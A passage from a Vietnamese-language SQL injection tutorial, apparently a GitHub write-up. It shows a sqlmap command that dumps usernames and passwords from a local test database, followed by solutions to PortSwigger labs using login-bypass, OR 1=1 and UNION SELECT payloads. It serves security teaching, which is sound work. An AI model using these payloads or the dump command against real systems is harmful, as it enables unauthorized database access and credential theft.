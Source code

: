 
**Bước 5:** Thực hiện câu lệnh để lấy ra các giá trị trong từng cột mà bạn muốn
```js
python sqlmap.py -u "http://127.0.0.1:5000/search?id=1" -D luutru_thongtin -T teachers -C id,username,password --dump
```

**Kết quả** sẽ trả về tài khoản và mật khẩu được lưu trong cơ sở dữ liệu 

![Screenshot 2025-05-27 144756](https://github.com/user-attachments/assets/ae2aaa33-dc85-4df4-bcf6-9efc0079072b)

# 3. Vượt qua các challenge SQLi

### 3.1 Challenge trên portswigger
#### 1. Challenge 1

![Screenshot 2025-05-27 144835](https://github.com/user-attachments/assets/37d62e21-510c-4e4e-8e68-68794af45ba5)

**Giải pháp**
1. Sửa đổi `category`tham số, cung cấp cho nó giá trị`'+OR+1=1--`
2. Gửi yêu cầu và xác minh rằng phản hồi hiện có chứa một hoặc nhiều sản phẩm chưa phát hành.

Kết quả :

![Screenshot 2025-05-27 144914](https://github.com/user-attachments/assets/c9a63264-b3f6-4c38-9f8b-246d2d9a772d)

##### 2.Challenge 2

![Screenshot 2025-05-27 145047](https://github.com/user-attachments/assets/aa6ef6c1-9a5c-48b2-a4c2-47532a4d18af)

**Giải pháp**
1. Sửa đổi `username`tham số bằng cách gán giá trị cho nó:`administrator'--`

![Screenshot 2025-05-27 145110](https://github.com/user-attachments/assets/9eaa07c3-f443-4f62-8a6e-4436b642a432)

##### 3. Challenge 3

![Screenshot 2025-05-27 145129](https://github.com/user-attachments/assets/17c1ea40-82b6-4d92-8f79-43266dcd4bce)

**Giải pháp**

1. Sửa đổi `category`tham số, gán cho nó giá trị `'+UNION+SELECT+NULL--`. Quan sát thấy lỗi xảy ra.
2. Sửa đổi `category`tham số để thêm một cột bổ sung chứa giá trị null:
    `'+UNION+SELECT+NULL,NULL--`
3. Tiếp tục thêm giá trị null cho đến khi lỗi biến mất và phản hồi bao gồm nội dung bổ sung có chứa giá trị null.


Nếu kiếm tra có lỗi `500` này thì tiếp tục tăng thêm NULL
![Screenshot 2025-05-27 145201](https://github.com/user-attachments/assets/bb61571f-d313-4f96-a1ca-764cc4bbe976)

Kết quả ra `200` thì đã thành công 

